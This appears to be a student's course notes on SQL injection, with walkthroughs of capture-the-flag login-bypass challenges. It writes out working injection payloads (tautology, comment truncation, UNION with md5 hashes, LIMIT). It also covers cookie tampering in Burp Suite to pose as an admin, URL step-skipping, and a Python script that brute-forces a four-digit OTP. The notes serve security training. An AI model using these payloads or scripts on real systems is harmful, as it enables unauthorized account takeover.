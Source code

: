 # SQL Injection

## Part 1 - Review
* Client   | Web - WAS - DB
* Web Browser
Front End (user / HTML,CSS,Javascript)  ----  Back end (server / ASP, JSP, PHP, Python)
* Web server : file
  - cookie = post-it
  - Session | SessionID
* Identification / Authentication
* Burp Suite - Web Proxy tool

## Part 2 - SQL Injection
* A code injection technique that might destroy your database
* SQL Example   
  - select * from member where id='normalitic'   =  All data
  - select id,pass from member where id='normalitic'   =  ID, Password

* SQL Injection Example
  - ID -> normaltic' #
  - '#' = comment
  - ID -> normaltic' or '1'='1
  - where id ='normaltic' or '1'='1' and pass = '99'
  - "and" function works first

## Part 3 - CTF
* CTF Resource
* https://book.hacktricks.xyz/pentesting-web/login-bypass
* https://portswigger.net/web-security/sql-injection/union-attacks
* https://www.geeksforgeeks.org/sql-limit-clause/
* https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/#ByPassingLoginScreens

## Part 4 - Assignment
1. Review
2. CTF <br>
a. Login Bypass 1
- Check whether the SQL injection working or not
- normaltic1' or '1'='1
- Assume the identification and authentication together

b. Login Bypass 2
- normaltic1' #
- Assume the identification and authentication together with hash? or not

c. Login Bypass 3
- Assume the identification and authentication separate because of not working of the last SQL injection
- I need to find where the password location. It can be used by UNION
- Check the UNION table how many tables is located in  (doldol' order by 1#)
- Use the UNION (SELECT a, b FROM table1 UNION SELECT c, d FROM table2)
- ID = ' union select 'normaltic3', '0000' #  // Password 0000

d. Login Bypass 4
- Assume the identification and authentication separate with hash
- Use the UNION and Hash (md5)
- ID = ' union select 'normaltic4', md5('0000') #  // Password 0000

e. Login Bypass 5
- Read burp suite and we can see the cookiee session and loginUser = doldol
- we can change the loginuser to normaltic5 on repeater and send it.

f. Secret Login
- The hint said to login as an admin, but they forgot the admin account.
- So, try the basic SQL Injection to check login logic condition
- Use the limit function of SQL Injection to bring specific row information
- ID = ' or '1'='1' limit 1,1 #

g. Get Admin
- At the Burpsuite, the login function uses a cookies session.
- Change the loginUser to Admin

h. PIN CODE Bypass
- Brute Force: Random input
- Page is changed sequence
- So, Change the step2.php to step3.php

i. Admin is Mine
- There is no clue for SQL injection, so it should use intercept loginUser
- The setting of proxy seeting changes to Intercept responses based on the following rules "check"
- Match type Request "Check"
- After that, follow the traffic and change the id to admin

j. Pin Code Crack
- Brute Force to use Python
```python
import requests

URL = "http://ctf.segfaulthub.com:1129/6/checkOTP.php"

for i in range(10000):
    res = requests.get(URL, params={'otpNum': i})
    if "Fail" not in res.text:
        print(f"otpNum = {i}")
        break
```
3. Web Development
- Login page
- Create Account

